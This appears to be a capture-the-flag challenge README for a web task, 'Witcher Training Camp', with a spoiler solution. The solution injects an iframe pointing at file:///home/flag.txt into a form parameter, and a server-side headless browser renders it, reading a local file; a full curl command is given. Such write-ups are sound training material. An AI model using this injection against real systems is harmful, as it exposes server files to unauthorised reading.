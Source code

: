 # Witcher Training Camp 
Category: web


### Description

Witcher Training Camp has launched a new website. Can you hack it and get the flag?

### Points
250

### Solution
<details>
 <summary>Reveal Spoiler</summary>

Inject javascript code to the `picture` parameter in POST request at `/enroll` endpoint. This is causes a refected XSS to be executed on a headless chrome on the server which can effectively be used to read files serverside using the iframe tag. Using this approach the participants should read the `flag.txt` file.

```bash
curl 'http://localhost:8080/enroll' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Origin: http://localhost:8080' -H 'Upgrade-Insecure-Requests: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' --data 'full_name=test&origin=test&specialty=test&picture=test.txt<iframe src="file:///home/flag.txt"></iframe>&consent=on' --compressed --output flag.pdf
```
</details>
